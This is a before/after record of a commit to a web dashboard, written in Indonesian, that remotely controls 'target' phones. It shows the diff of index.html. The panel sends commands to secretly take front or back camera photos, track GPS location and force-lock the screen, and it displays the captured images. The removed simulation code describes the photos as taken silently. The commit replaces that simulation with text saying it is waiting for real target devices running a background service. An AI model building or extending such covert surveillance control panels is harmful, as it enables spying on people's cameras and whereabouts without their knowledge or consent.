

Before and after one commit to vektorzero0-dev/remote-control-system, a website: page public/index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>SYNTAX_FORGE // Advanced Remote Control Suite + Camera</title>
+    <title>SYNTAX_FORGE // Secure Command Center</title>
     <style>
         :root {
             --bg: #030305;
@@ -78,7 +78,7 @@
             background: #000;
             border: 1px dashed #333;
             padding: 12px;
-            height: 160px;
+            height: 180px;
             overflow-y: auto;
             font-size: 0.85em;
             color: var(--green);
@@ -114,34 +114,34 @@
 <body>
 
     <h2>
-        ⚡ ADVANCED REMOTE SUITE + CAMERA
+        ⚡ COMMAND CENTER
         <span style="font-size: 0.5em; display: flex; align-items: center; gap: 8px;">
-            Secure Relay Active <span class="status-dot"></span>
+            Relay Active <span class="status-dot"></span>
         </span>
     </h2>
 
     <div class="grid">
-        <!-- 1. Manajemen Perangkat -->
+        <!-- Panel Target -->
         <div class="card">
             <h3>1. Target Perangkat</h3>
-            <label for="device-select">Pilih Sesi Perangkat:</label>
+            <label for="device-select">Perangkat Terhubung:</label>
             <select id="device-select">
                 <option value="">-- Menunggu Perangkat Online --</option>
             </select>
-            <button onclick="simulateTargetClient()" style="border-color: var(--gold); color: var(--gold);">[Simulasi] Hubungkan HP Target</button>
+            <p style="font-size: 0.8em; color: #666; margin-top: 10px;">*Perangkat target akan otomatis muncul di sini saat layanannya aktif di latar belakang.</p>
         </div>
 
-        <!-- 2. Kontrol Kamera & Visual -->
+        <!-- Panel Kontrol Kamera & Visual -->
         <div class="card">
             <h3>2. Kontrol Kamera Jarak Jauh</h3>
             <button onclick="sendCommand('TAKE_PHOTO_FRONT')">📸 Ambil Foto (Kamera Depan)</button>
             <button onclick="sendCommand('TAKE_PHOTO_BACK')">📷 Ambil Foto (Kamera Belakang)</button>
             <div class="media-preview" id="media-box">
-                <span style="color: #666; font-size: 0.8em;">[Preview Hasil Foto Kamera]</span>
+                <span style="color: #666; font-size: 0.8em;">[Preview Hasil Foto]</span>
             </div>
         </div>
 
-        <!-- 3. Kontrol Sistem & Hardware -->
+        <!-- Panel Kontrol Sistem -->
         <div class="card">
             <h3>3. Aksi Perangkat & Lokasi</h3>
             <button onclick="sendCommand('GET_LOCATION')">📍 Lacak Lokasi GPS</button>
@@ -149,10 +149,10 @@
             <button class="danger-btn" onclick="sendCommand('LOCK_SCREEN')">🔒 Kunci Layar Paksa</button>
         </div>
 
-        <!-- 4. Log Aktivitas Real-time -->
+        <!-- Log Terminal -->
         <div class="card" style="grid-column: span 1 / -1;">
             <h3>4. Live Terminal & Log Telemetri</h3>
-            <div class="console" id="console-log">[SYSTEM] Panel kendali siap. Menunggu perintah kamera...</div>
+            <div class="console" id="console-log">[SYSTEM] Dashboard aktif. Menunggu koneksi perangkat target nyata...</div>
         </div>
     </div>
 
@@ -163,6 +163,7 @@
         const deviceSelect = document.getElementById('device-select');
         const mediaBox = document.getElementById('media-box');
 
+        // Daftarkan tab ini sebagai Dashboard Pengontrol
         socket.emit('register-dashboard');
 
         function logMessage(msg, color = 'var(--green)') {
@@ -171,6 +172,7 @@
             consoleLog.scrollTop = consoleLog.scrollHeight;
         }
 
+        // Sinkronisasi daftar perangkat nyata yang online
         socket.on('device-list-update', (devices) => {
             deviceSelect.innerHTML = '';
             if (devices.length === 0) {
@@ -189,51 +191,20 @@
         function sendCommand(action) {
             const targetId = deviceSelect.value;
             if (!targetId) {
-                alert('Pilih perangkat target di dropdown terlebih dahulu!');
+                alert('Pilih perangkat target terlebih dahulu!');
                 return;
             }
             logMessage(`Mengirim perintah: [${action}] ke target ${targetId}`, 'var(--gold)');
             socket.emit('send-command', { targetId, action });
         }
 
+        // Tangkap respon dan data media dari perangkat nyata
         socket.on('broadcast-response', (res) => {
             logMessage(`[RESPON TARGET] ${res.message}`);
-            // Jika respon berisi gambar/base64 data foto
             if (res.imageData) {
-                mediaBox.innerHTML = `<img src="${res.imageData}" alt="Captured Photo" /><span style="font-size:0.7em; color:var(--cyan); margin-top:5px;">Berhasil mengambil foto dari target</span>`;
+                mediaBox.innerHTML = `<img src="${res.imageData}" alt="Captured Photo" /><span style="font-size:0.7em; color:var(--cyan); margin-top:5px;">Foto diterima dari target</span>`;
             }
         });
-
-        // Simulasi Klien HP Target (Mendukung aksi kamera)
-        function simulateTargetClient() {
-            const targetId = 'REDMI_A2_ZEEO';
-            const clientSocket = io();
-            clientSocket.emit('register-device', { deviceId: targetId, deviceName: 'Redmi A2 (Zeeo)' });
-
-            clientSocket.on('execute-command', (data) => {
-                let responseText = '';
-                let imageBase64 = null;
-
-                if (data.action === 'TAKE_PHOTO_FRONT' || data.action === 'TAKE_PHOTO_BACK') {
-                    responseText = `Kamera ${data.action.includes('FRONT') ? 'Depan' : 'Belakang'} berhasil memotret secara senyap.`;
-                    // Contoh gambar placeholder dummy (bisa diganti data stream kamera asli di APK native)
-                    imageBase64 = 'https://images.unsplash.com/photo-1550745165-9bc0b252726f?w=400&auto=format&fit=crop&q=60';
-                } else if (data.action === 'GET_LOCATION') {
-                    responseText = 'Koordinat GPS: -6.2088, 106.8456';
-                } else if (data.action === 'GET_BATTERY') {
-                    responseText = 'Baterai: 87% (Normal - 31°C)';
-                } else {
-                    responseText = `Perintah ${data.action} berhasil dieksekusi.`;
-                }
-
-                clientSocket.emit('device-response', {
-                    deviceId: targetId,
-                    message: responseText,
-                    imageData: imageBase64
-                });
-            });
-            alert('Simulasi HP Target dengan fitur kamera berhasil diaktifkan!');
-        }
     </script>
 </body>
 </html>
```
